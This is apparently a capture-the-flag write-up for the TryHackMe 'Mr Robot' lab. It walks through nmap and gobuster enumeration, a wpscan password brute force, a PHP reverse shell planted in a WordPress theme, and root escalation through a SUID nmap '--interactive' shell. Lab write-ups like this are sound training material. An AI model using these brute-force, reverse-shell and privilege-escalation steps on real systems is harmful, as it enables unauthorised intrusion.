 # Mr Robot THM

---

![](./.assets/logo.jpeg)


---

## Index
- [Enumeration](#enumeration)
- [Finding Vunerabilities](#finding-vunerabilities)
- [Reverse Shell and PrivEsc](#reverse-shell-and-privesc)
- [Final Thoughts](#final-thoughts)

---

```bash
export IP=10.10.181.6
```

---

### Enumeration

```bash
nmap -sC -sV -v -A $IP -oN nmap/initial.nmap
```

`initial`
```
# Nmap 7.91 scan initiated Tue Jul 20 16:06:26 2021 as: nmap -vvv -p 80,443 -sC -sV -A -v -oN nmap/initial.nmap 10.10.77.212
Nmap scan report for 10.10.77.212
Host is up, received syn-ack (0.14s latency).
Scanned at 2021-07-20 16:06:28 +04 for 34s

PORT    STATE SERVICE  REASON  VERSION
80/tcp  open  http     syn-ack Apache httpd
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http syn-ack Apache httpd
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-09-16T10:45:03
| Not valid after:  2025-09-13T10:45:03
| MD5:   3c16 3b19 87c3 42ad 6634 c1c9 d0aa fb97
| SHA-1: ef0c 5fa5 931a 09a5 687c a2c2 80c4 c792 07ce f71b
| -----BEGIN CERTIFICATE-----
| MIIBqzCCARQCCQCgSfELirADCzANBgkqhkiG9w0BAQUFADAaMRgwFgYDVQQDDA93
| d3cuZXhhbXBsZS5jb20wHhcNMTUwOTE2MTA0NTAzWhcNMjUwOTEzMTA0NTAzWjAa
| MRgwFgYDVQQDDA93d3cuZXhhbXBsZS5jb20wgZ8wDQYJKoZIhvcNAQEBBQADgY0A
| MIGJAoGBANlxG/38e8Dy/mxwZzBboYF64tu1n8c2zsWOw8FFU0azQFxv7RPKcGwt
| sALkdAMkNcWS7J930xGamdCZPdoRY4hhfesLIshZxpyk6NoYBkmtx+GfwrrLh6mU
| yvsyno29GAlqYWfffzXRoibdDtGTn9NeMqXobVTTKTaR0BGspOS5AgMBAAEwDQYJ
| KoZIhvcNAQEFBQADgYEASfG0dH3x4/XaN6IWwaKo8XeRStjYTy/uBJEBUERlP17X
| 1TooZOYbvgFAqK8DPOl7EkzASVeu0mS5orfptWjOZ/UWVZujSNj7uu7QR4vbNERx
| ncZrydr7FklpkIN5Bj8SYc94JI9GsrHip4mpbystXkxncoOVESjRBES/iatbkl0=
|_-----END CERTIFICATE-----

Read data files from: /usr/local/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul 20 16:07:02 2021 -- 1 IP address (1 host up) scanned in 36.03 seconds
```

There's not much here, except the fact we know that our exploit will be via HTML and likely through some sort of RFI.

We should start enumerating the website with `gobuster` to find potential weaknesses

```bash
gobuster dir -u $IP -w ~/wordlists/website_dir/directory-list-2.3-small.txt -o gobuster/buster_small.gobuster
```
(Note increasing the amount of threads is _not **recommended**_)

```
/images               (Status: 301) [Size: 236]
/blog                 (Status: 301) [Size: 234]
/sitemap              (Status: 200) [Size: 0]
/rss                  (Status: 301) [Size: 0]
/login                (Status: 302) [Size: 0]
/0                    (Status: 301) [Size: 0]
/admin                (Status: 301) [Size: 235]
```

A few directories quickly reveal that this is a wordpress site.

---

### Finding Vunerabilities

Wordpress and vunerability goes hand-in-hand, hence it is time to fire up `wp-scan`

```bash
wp-scan --url $IP -e vp,vt,u
```

Looking at the results of it, there is nothing really standing out except `robots.txt` existing. Navigating to that reveals the first key as well as the name of what appears to be a wordlist for us to exploit.

Considering the sheer size of this wordlist, I have reason to believe that it has duplicates.
To confirm this, I run

```bash
wc fosocity.dic
# 858160
# Remove duplicates
cat fosocity | sort | uniq > pruned.txt
wc pruned.txt
# 11451
```

That's nearly 75 _times_ the amount of words we would have had to check.

I prefer using wpscan to brute force wordpress sites. They tend to be easier on the eyes when debugging (@hydra)

```bash
wpscan --url $IP -U pruned.txt -P pruned.txt
```

After waiting some time (this room is extremely slow) we gain the credentials for a user `Elliot` and their password `<<REDACTED>>`

We can now login as Elliot and check what we can modify to gain a reverse shell onto the box.

---

### Reverse Shell and PrivEsc

I notice they have the ability to modify the **php** code of themes. I chose the theme `twentyfifteen` and changed the `404.php` code to `revshell.php`

I can now access the modified file from `http://$IP/wp-content/twentyfifteen/404.php` to gain a reverse-shell

```bash
netcat -lvnp 9999
---
python -c "import pty; pty.spawn('/bin/bash')" # God I hate the default shell
```

Curiously, instead of the typical `www-data` we have spawned as daemon.

Navigating to the only home directory of the only user on the box `robot`, I realise that I cannot access the `key-2-of-3.txt` flag but they have their password hash stored alongside it, which we can read.

Cracking `robot`'s hash proves to be trivial, it is a simple MD5 hash that rockyou will crack in seconds.

We grab the user flag and now look to escalate our priviledges. Getting `linpeas` on the machine was an unneeded pain (this box is slow...) and running it reveals a very interesting SUID binary: `nmap`.

Checking GTFObins for PrivEsc related to nmap was a mild letdown as it only pointed to file read or write or shells but I fairly confident that I could escalate my priviledge without reading `root.txt` or `key-3-of-3.txt` indirectly.

Doing some quick googling revealed a simple way to spawn a root shell with nmap:

```bash
nmap --interactive
nmap> !sh
$ whoami
root
```

And we are now root! And we can access `key-3-of-3.txt` and this box is complete!

---

### Final Thoughts

Fun box hampered by its _s-l-u-g-g-i-s-h_ performance. I love themed boxes and enjoyed playing around with the default page...despite how slow it is.
I'd recommend this box, especially to premium users whose machines have extra resources.
I will say that it definitely feels beginner to intermediate; and I'm only giving it intermediate based on the fact that it is extremely challenging for new users who are still getting to grips with enumeration and its interpretation due to how long it takes to correct errors.

![](https://i.imgur.com/GafsLEl.png)

